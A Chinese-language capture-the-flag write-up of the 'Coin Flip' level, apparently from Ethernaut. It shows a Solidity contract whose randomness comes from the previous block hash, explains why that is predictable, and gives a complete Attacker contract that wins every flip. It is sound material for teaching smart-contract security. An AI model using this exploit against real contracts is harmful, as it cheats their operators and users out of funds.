 # Coin Flip

Coin Flip这一关揭露的是在EVM环境下的随机数攻击。这一关的攻击思路是通过了解合约是如何生成随机数，利用同样的机制来“预测”将会产生的情况，以此来达到作弊的效果。 让我们先来看这一关的代码。

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
``` 

## 代码分析
合约代码的总体来说思路就是当flip成功时，就会将consecutiveWins加1，当flip失败时，就会将consecutiveWins置0。这样的话，当consecutiveWins达到10时，我们就可以上交实例完成这一关的挑战。根据`flip`函数，我们可以知道，`blockValue`的结果是由当前区块数-1的hash值来决定的,并且将其转换为uint256。之后利用`blockValue`整数除以`FACTOR`来获得是否为1，当`coinflip`为1时，那么`side = true`，否则`side = false`. 再将猜测的boolean值和`side`进行对比，看是否猜测成功。

那么进攻的思路就很简单的了。因为我们已经了解了随机数生成的办法是根据当前区块数，只要我外部预测的区块数与投掷硬币时的区块数一致，那么我们就成功预测，而达到这个目的，我们需要将这两件事放在同一个transaction中，那么他们的区块数一定是相同的。

首先我们可以在同文件中定义一个合约，叫做Attacker,设定我们的目标合约是CoinFlip

```
contract Attacker {
  
  CoinFlip private immutable target;
  constructor(){
    target = CoinFlip(address _target);
  }

}
```

接下来我们需要定义一个函数，将一个`boolean`值作为我们猜测的值，这里注意的是我们还需要保证传入的值在使用`target.flip()`时的返回值永远为true。
```
contract Attacker {
  
  CoinFlip private immutable target;
  constructor(){
    target = CoinFlip(address _target);
  }

  function flip() external {
    guess = _guess(); // 预先假设是一个_guess函数返回的值
    require(target.flip(guess), "flip failed");
  } 

}
```
最后我们需要确定_guess()函数的返回值是什么，那么就根据原合约代码中的思路复写一下就好。

```
contract Attacker {

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  CoinFlip private immutable target;
  constructor(){
    target = CoinFlip(address _target);
  }

  function flip() external {
    guess = _guess(); // 预先假设是一个_guess函数返回的值
    require(target.flip(guess), "flip failed");
  } 

  function _guess() private view returns (bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return side;
  }
}
```
让我们来一下最后的攻击代码

## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  CoinFlip private immutable target;
  constructor(address _target){
    target = CoinFlip(_target);
  }

  function flip() external {
    bool guess = _guess(); // 预先假设是一个_guess函数返回的值
    require(target.flip(guess), "flip failed");
  } 

  function _guess() private view returns (bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return side;
  }
}

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## 攻击过程
1. 部署合约，部署是`target`为`CoinFlip`合约的地址
2. 调用`Attacker.flip()` 10次。